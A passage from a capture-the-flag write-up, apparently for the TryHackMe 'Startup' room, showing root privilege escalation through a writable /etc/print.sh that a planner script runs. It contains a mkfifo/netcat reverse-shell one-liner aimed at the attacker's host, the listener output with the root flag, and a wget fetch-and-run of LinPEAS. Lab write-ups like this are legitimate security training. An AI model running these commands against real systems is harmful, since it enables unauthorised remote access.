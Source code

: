 `startup_list.txt` is empty, but `planner.sh` seems to be a script that runs `/etc/print.sh`. Let's see what's
permissions they have for `/etc/print.sh`.

```bash
lennie@startup:~$ ls -la  /etc/print.sh
-rwx------ 1 lennie lennie 25 Nov 12  2020 /etc/print.sh
```

Hmm... `lennie` owns the file, and has full permissions. We can try to edit the file to get a reverse shell.

```bash
lennie@startup:~$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <host_ip> 2345 >/tmp/f" > /etc/print.sh
```

I then set up a netcat listener on my machine to listen for port 2345 that I set in the script. I then got a
connection!!

```bash
┌──(kairos㉿kali)-[~]
└─$ nc -lvnp 2345
listening on [any] 2345 ...
connect to [<host_ip>] from (UNKNOWN) [10.10.242.186] 36520
sh: 0: can't access tty; job control turned off
# ls
root.txt
# cat root.txt
THM{f963aaa6a430f210222158ae15c3d76d}
```

## Alternative

Alternatively, I also tried to use LinPEAS to find any interesting files that I could use to escalate privileges. I had
set a Python HTTP server — this time on my host machine — to download the LinPEAS script.

> LinPEAS is Linux Privilege Escalation Awesome Script. It is a script that enumerates the system looking for
> misconfigurations that could allow for privilege escalation.

```bash
lennie@startup:~$ wget http://<host_ip>:9999/LinPEAS.sh
--2023-12-29 15:31:49--  http://<host_ip>:9999/LinPEAS.sh
Connecting to <host_ip>:9999... connected.
HTTP request sent, awaiting response... 200 OK
Length: 847920 (828K) [text/x-sh]
Saving to: ‘LinPEAS.sh’

LinPEAS.sh          100%[===================>] 828.05K   414KB/s    in 2.0s

2023-12-29 15:31:52 (414 KB/s) - ‘LinPEAS.sh’ saved [847920/847920]

lennie@startup:~$ chmod +x LinPEAS.sh ;  ./LinPEAS.sh
```
